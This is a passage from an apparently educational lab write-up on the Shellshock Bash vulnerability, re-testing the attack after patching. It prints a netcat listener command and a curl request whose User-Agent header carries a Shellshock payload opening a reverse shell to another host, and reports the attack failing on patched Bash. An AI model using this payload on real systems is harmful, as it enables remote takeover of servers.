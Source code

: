 After that, we re-launched the attack by the http server. We opened two terminals again, and used the commands below: 
```shell
# In the terminal one
$ nc -l 9090 -v
# In the terminal two
$ curl http://10.0.2.6/cgi-bin/myprog.cgi -v -A \
"() { :; }; echo Content_type: text/plain;echo; \
/bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1"
```
The image below shows their output. The `curl` did not work as expect under the patched `Bash v2.4`, which correctly handled all environmental variables. 
![](/assets/images/16326883206491/16327703950349.jpg)
